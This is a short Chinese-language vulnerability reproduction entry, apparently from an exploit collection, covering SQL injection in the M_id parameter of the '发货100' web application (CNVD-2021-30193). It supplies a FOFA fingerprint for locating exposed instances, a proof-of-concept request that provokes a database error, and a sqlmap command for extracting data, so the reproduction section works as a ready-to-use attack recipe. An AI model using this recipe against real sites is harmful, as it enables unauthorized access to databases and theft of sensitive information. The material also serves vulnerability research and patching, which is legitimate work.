 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 发货100

## FOFA

> [!NOTE]
>
> icon_hash="1420424513"

## 漏洞复现

主页面如下

![image-20210602204745265](http://wikioss.peiqi.tech/vuln/image-20210602204745265.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用POC

```
/?M_id=1%27&type=product
```

![image-20210602204842198](http://wikioss.peiqi.tech/vuln/image-20210602204842198.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

 数据库出现报错, 使用Sqlmap注入

```
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![image-20210602233608318](http://wikioss.peiqi.tech/vuln/image-20210602233608318.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

